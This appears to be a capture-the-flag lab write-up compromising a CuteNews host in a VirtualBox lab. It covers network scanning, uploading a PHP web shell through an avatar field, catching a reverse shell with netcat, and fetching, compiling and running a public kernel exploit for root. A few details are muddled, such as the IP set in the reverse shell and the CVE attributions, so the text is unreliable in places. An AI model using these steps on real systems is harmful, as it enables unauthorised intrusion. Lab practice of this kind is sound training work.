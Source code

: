 Simple lab presents a vulnerable machine that offers an opportunity to practice essential penetration testing techniques — from network enumeration and exploiting file upload vulnerabilities to gaining root access via local privilege escalation.

# Network Enumeration

First, identify the attacker’s IP address:
```
ifconfig
```

```bash
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet ==192.168.110.238==  netmask 255.255.255.0  broadcast 192.168.110.255
        inet6 fe80::a00:27ff:fe31:7b13  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:31:7b:13  txqueuelen 1000  (Ethernet)
        RX packets 4485  bytes 3483260 (3.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3200  bytes 796230 (777.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1440 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1440 (1.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


```

In this case, the attacker’s IP was: 192.168.110.238
```
export hip=192.168.110.238
```

Next, list the IP addresses (and devices) used in a network:
```
sudo arp-scan -l
```

```bash
Interface: eth0, type: EN10MB, MAC: 08:00:27:31:7b:13, IPv4: 192.168.110.238
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.110.2	50:28:4a:4d:64:8f	(Unknown)
192.168.110.103	f2:67:3b:95:be:5c	(Unknown: locally administered)
192.168.110.158	08:00:27:b4:0c:af	(Unknown)
192.168.110.58	82:b5:aa:74:3f:a6	(Unknown: locally administered)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.978 seconds (129.42 hosts/sec). 4 responded

```

From the scan, we identified the target machine at: 192.168.110.158 looking to mac address starting with (08.00) which virtual box assigns.
```
export ip=192.168.110.158
```
# Service Discovery

To discover running services and their versions, run:
```
nmap -sCV $ip
```

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-01 23:04 IST
Nmap scan report for 192.168.110.158
Host is up (0.00054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Please Login / CuteNews
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 08:00:27:B4:0C:AF (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.92 seconds

```

The results showed that port 80 (HTTP) is open.

# Web Application Analysis

- Accessing http://192.168.110.158 in a browser redirected us to a login page. Multiple login attempts with common credentials failed.
- We then used the registration feature to create a new account, which granted us access to the dashboard.
- In the Personal Options section, there was an avatar upload feature — a good candidate for testing file upload vulnerabilities.
# Exploiting File Upload

We uploaded a simple PHP web shell, which was successfully stored.This confirms a file upload vulnerability that leads to Remote Code Execution (RCE).

# Reverse Shell Access

To obtain a more stable shell, we used a PHP reverse shell.

Edit the php-reverse-shell.php file (we use Pentest Monkey Reverse Shell php script) and set the attacker IP and port: `192.168.110.158:1337` (the port can be any accessible port)

Set up a netcat listener on the attacker’s machine:
```
nc -lnvp 1337
```
```bash
listening on [any] 1337 ...
connect to [192.168.110.238] from (UNKNOWN) [192.168.110.158] 39042
Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux
 13:43:43 up 21 min,  0 users,  load average: 0.00, 0.01, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

```

# Post-Exploitation Enumeration

After gaining shell access, we ran the following commands:
```
ls  
whoami  
uname -a  
cat /etc/lsb-release
```

```bash
boot
dev
etc
home
initrd.img
lib
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
vmlinuz
$ www-data
$ Linux simple 3.16.0-30-generic #40~14.04.1-Ubuntu SMP Thu Jan 15 17:45:15 UTC 2015 i686 i686 i686 GNU/Linux

```
Based on the output, we identified a vulnerable kernel version that could be exploited.

# Privilege Escalation

Upon discovering that the target machine was running Ubuntu 14.04.2 LTS, we proceeded to research known vulnerabilities associated with that specific OS version.

During our investigation, we identified that the system was affected by CVE-2015–1862 (in pkexec/PolicyKit) and CVE-2015–1318 (in the Linux kernel’s overlayfs).

After further analysis, we located a publicly available exploit for this vulnerability on Exploit-DB, which we then used to escalate privileges on the target:

[https://www.exploit-db.com/exploits/36746](https://www.exploit-db.com/exploits/36746)

Downloaded an renamed the exploit to `try.c`

- Move to a writable directory
```
cd /tmp
```

- Host a python server inside the attacker machine 
```
python3 -m http.server 8080
```

- Download the file in the victim's machine
```
wget http://192.168.110.238:8080/try.c
```

```bash
--2025-07-01 14:00:06--  http://192.168.110.238:8080/try.c
Connecting to 192.168.110.238:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/x-csrc]
Saving to: 'try.c'

     0K ....                                                  100%  467M=0s

2025-07-01 14:00:06 (467 MB/s) - 'try.c' saved [5119/5119]

```

- extract the file using this command:
```
gcc -o exploit try.c
```

- Give the permission to execute the exploit:
```
chmod +x exploit
```

- Run the exploit:
```
./exploit
```

- Verify root access:
```
root
```

- Retrieve the flag:
```
cd ..  
ls  
cd /root  
ls  
cat flag.txt
```

# Conclusion

In this lab, we successfully performed:

- Network and host discovery
- Service enumeration
- File upload vulnerability exploitation
- Remote code execution via PHP web shell
- Reverse shell access
- Local privilege escalation using a public kernel exploit